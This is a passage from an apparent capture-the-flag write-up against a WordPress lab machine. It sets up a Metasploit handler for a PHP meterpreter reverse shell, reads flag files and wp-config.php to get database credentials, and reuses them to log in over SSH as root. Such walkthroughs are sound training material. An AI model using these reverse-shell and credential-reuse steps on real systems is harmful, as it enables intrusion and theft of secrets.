 Then I can use my plugin to get the payload onto the web server and start metasploit:

{% highlight bash %}
msfconsole
use exploit/multi/handler
set LHOST 111.111.111.111
set LPORT 4444
set payload php/meterpreter/reverse_tcp
exploit
{% endhighlight %}

Now that the meterpreter handler is running I can fire up the shell and now we have the first flag.

## PrivEsc

Now that I have shell:

{% highlight bash %}
cat /home/wpadmin/flag.txt
{% endhighlight %}

{% highlight bash %}
cd ../../../../
pwd
/var/www/wordpress
{% endhighlight %}

Now that we are in the Wordpress root let's look at the config file and see what the database credentials are:

{% highlight bash %}
cat wp-config.php
{% endhighlight %}

{% highlight php %}
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');
{% endhighlight %}

Now to test:

{% highlight bash %}
ssh root@vm
pass: rootpassword!
{% endhighlight %}

And we're in, do a quick ls and see the flag:

{% highlight bash %}
cat /root/flag.txt
{% endhighlight %}

Lastly:

{% highlight bash %}
cat /etc/cron.d/php5
{% endhighlight %}
